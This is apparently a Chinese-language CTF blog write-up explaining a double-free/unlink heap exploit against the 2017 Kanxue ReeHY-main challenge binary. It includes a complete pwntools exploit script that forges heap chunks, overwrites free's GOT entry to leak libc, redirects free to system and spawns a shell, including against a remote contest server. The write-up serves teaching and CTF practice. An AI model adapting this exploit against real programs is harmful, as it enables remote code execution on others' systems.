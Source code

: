
title: double-free

date: 2018-03-30 17:57:05

categories:
- CTF
- double-free
- unlink



Double Free其实就是同一个指针free两次。虽然一般把它叫做double free。其实只要是free一个指向堆内存的指针都有可能产生可以利用的漏洞。

double free的原理其实和堆溢出的原理差不多，都是通过unlink这个双向链表删除的宏来利用的。只是double free需要由自己来伪造整个chunk并且欺骗操作系统。



## 程序分析

题目为  [看雪.Wifi万能钥匙 CTF 2017 第4题 ReeHY-main ](https://ctf.pediy.com/game-fight-34.htm)

1. 创建 chunk，选择存储chunk指针到数组中的那个位置(BSS段)， chunk 不能大于 4k ， 数量<=4。

   并将 可编辑标志 置为 1。

2. 释放 chunk，选择 chunk指针数组 释放。 检测下标<=4

3. 编辑 chunk，选择 chunk指针数组 编辑， 检测 可编辑标志 ， 1 为可编辑。  **存在堆溢出**




## 利用

利用思路：

1. 由于指针释放后未重置，存在 double free。
2. 利用 unlink 将free 替换为 push ， 得到基址。
3. 利用 基址得到 system 地址。
4. 将 free 替换为  system
5. getshell




申请chunk1 ，chunk2

![mg-](double-free/img-1.png)

释放 chunk1 ，chunk2 ， 申请chunk3 (0x210字节) 为保证double free利用万无一失，最好后申请的大chunk的空间与之前两个chunk完全重叠。

![mg-](double-free/img-2.png)

然后我们伪造chunk4 chunk5，(chunk1指针(指针P) free时没有重置 ，可以 Double free  )，可以实现 unlink。

![mg-](double-free/img-3.png)


```python
#!/usr/bin/env python
# encoding: utf-8
 
from pwn import *
import sys
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
# context.log_level = "debug"
 
def Welcome():
    p.recvuntil("$ ")
    p.sendline("mutepig")
 
def Add(size,id,content):
    p.recvuntil("$ ")
    p.sendline("1")
    p.recvuntil("size\n")
    p.sendline(str(size))
    p.recvuntil("cun\n")
    p.sendline(str(id))
    p.recvuntil("content\n")
    p.sendline(content)
 
def Remove(id):
    p.recvuntil("$ ")
    p.sendline("2")
    p.recvuntil("dele\n")
    p.sendline(str(id))
 
def Edit(id,content):
    p.recvuntil("$ ")
    p.sendline("3")
    p.recvuntil("edit\n")
    p.sendline(str(id))
    p.recvuntil("content\n")
    p.send(content)
 
if __name__ == "__main__":
    if len(sys.argv)==1:  # local
        p = process("./4-ReeHY-main")
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p = remote('211.159.216.90', 51888)
        libc = ELF('ctflibc.so.6')
    #+==================INIT=====================================
    elf = ELF('4-ReeHY-main')
    libc_atoi = libc.symbols['atoi']
    libc_system = libc.symbols['system']
    libc_binsh = next(libc.search("/bin/sh"))
    free_got = elf.got['free']
    atoi_got = elf.got['atoi']
    puts_plt = elf.plt['puts']
    heap_addr = 0x602100
    #+==================INIT=====================================
    Welcome()
    Add(512,0,"/bin/sh\x00")
    Add(512,1,"1")
    Add(512,2,"2")
    Add(512,3,"3")
    Remove(3)  # free顺序无影响。
    #https://bbs.pediy.com/thread-218395.htm exp中的malloc和free为了保护chunk0不被覆盖。
    Remove(2)
    payload = p64(0) + p64(512+1) + p64(heap_addr - 0x18) + p64(heap_addr - 0x10) + 'A'*(512-0x20) + p64(512) + p64(512)
    Add(1024,2,payload)
    Remove(3)
 
    Edit(2,'1'*0x18 + p64(free_got) + p64(1) + p64(atoi_got)+ "\n")
    gdb.attach(p)
    Edit(2,p64(puts_plt)) # 改写 free 为 puts
    
    
    Remove(3)
    atoi_addr = u64(p.recv(8)) & 0xffffffffffff   
    # u64 出错 ， 解决办法：
    #1. system_addr = u64(puts_addr+'\x00'*2)-puts_off+system_off
    #2. atoi_addr = u64(p.recv(8)) & 0xffffffffffff   
    
    base_addr = atoi_addr - libc_atoi
    system_addr = base_addr + libc_system
    
    Edit(2,p64(system_addr)) # 改写 free 为 system
    Remove(0)
 
    p.interactive()
```



## 参考

https://bbs.pediy.com/thread-218395.htm

https://bbs.pediy.com/thread-218325.htm

https://www.tuicool.com/articles/yquU732

